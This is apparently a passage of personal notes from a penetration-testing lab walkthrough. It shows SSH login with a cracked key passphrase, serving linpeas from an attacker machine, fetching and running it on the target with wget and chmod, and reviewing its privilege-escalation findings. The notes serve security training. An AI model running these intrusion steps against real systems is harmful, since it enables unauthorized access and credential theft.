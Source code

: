 It cracked! Passphrase is `tequieromucho`

Retry SSH and provide pass phrase to gain initial access as daniela
```hlt:1,6
kali@kali:~/beyond/websrv1$ ssh -i id_rsa daniela@192.168.50.244
Enter passphrase for key 'id_rsa': 

Welcome to Ubuntu 22.04.1 LTS (GNU/Linux 5.15.0-48-generic x86_64)
...
daniela@websrv1:~$ 
```

Add cracked phrase to `creds.txt`

### A link to the past
Speed up local enumeration using #linpeas 

```hlt:1,3
kali@kali:~/beyond/websrv1$ cp ~/Tools/Linux-Priv-Esc/linpeas.sh .

kali@kali:~/beyond/websrv1$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

From SSH session, use #wget to download linpeas then make it executable with chmod
```hlt:1,13
daniela@websrv1:~$ wget http://192.168.119.5/linpeas.sh
--2022-09-30 12:26:55--  http://192.168.119.5/linpeas.sh                                                                        
Connecting to 192.168.119.5:80... connected.                                                                                    
HTTP request sent, awaiting response... 200 OK                                                                                  
Length: 826127 (807K) [text/x-sh]                                                                                               
Saving to: ‘linpeas.sh’      

linpeas.sh  100%[============================>] 806.76K   662KB/s    in 1.2s     

2022-09-30 12:26:56 (662 KB/s) - ‘linpeas.sh’ saved [826127/826127] 


daniela@websrv1:~$ chmod a+x ./linpeas.sh
```

Execute linpeas
```
daniela@websrv1:~$ ./linpeas.sh
```

Reviewing linpeas results
IMO interesting: daniela has sudo permissions for .git. There's potential ssh keys in a diff folder. SQL database running at 3306. password files in wp application folder. 

Beginning with system info 
```hlt:5
╔══════════╣ Operative system
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#kernel-exploits                                                                                                                           
Linux version 5.15.0-48-generic (buildd@lcy02-amd64-080) (gcc (Ubuntu 11.2.0-19ubuntu1) 11.2.0, GNU ld (GNU Binutils for Ubuntu) 2.38) #54-Ubuntu SMP Fri Aug 26 13:26:29 UTC 2022                           
Distributor ID: Ubuntu
Description:    Ubuntu 22.04.1 LTS
Release:        22.04
Codename:       jammy
```